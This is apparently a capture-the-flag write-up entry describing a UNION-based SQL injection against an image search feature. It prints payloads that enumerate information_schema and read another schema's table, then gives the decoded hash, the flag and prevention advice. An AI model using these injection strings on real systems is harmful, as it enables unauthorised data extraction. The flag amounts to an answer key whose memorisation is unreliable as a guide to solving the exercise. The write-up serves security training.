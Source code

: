 ## Breach 11 – SQL Injection in Image Metadata Table (Cross-Schema Access)

**Vulnerability:**  
The image search or viewing functionality is vulnerable to SQL injection. The application fails to sanitize inputs, allowing attackers to access a separate schema and extract hidden data embedded in image metadata.

**OWASP Top 10 Mapping:**  
**A03:2021 – Injection**  
SQL injection used to access sensitive metadata and hidden clues across database schemas.

**Exploitation:**  
- Initiated SQL injection:
  ```sql
  1 UNION SELECT table_name, table_schema FROM information_schema.tables; --
  ```
  - Identified the table: `list_images` under schema `Member_images`.

- Discovered column names (trial-and-error based on known naming patterns):
  - `comment`
  - `title`

- Queried metadata:
  ```sql
  1 UNION SELECT comment, title FROM Member_images.list_images; --
  ```

- Found this row:
  ```
  comment: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
  title: Hack me ?
  ```

- Decrypted MD5 hash:
  ```
  1928e8083cf461a51303633093573c46 → albatroz
  ```

- Lowercased (already lowercase), then SHA-256 hashed:
  ```bash
  echo -n albatroz | sha256sum
  ```
  Result:
  ```
  f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
  ```

- Used the hash to obtain the flag.

**Prevention:**  
- Use parameterized queries for all dynamic SQL.
- Enforce strict input validation.
- Restrict cross-schema access unless explicitly required.
- Avoid embedding sensitive data in user-facing database records.

**Flag:**  
`f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

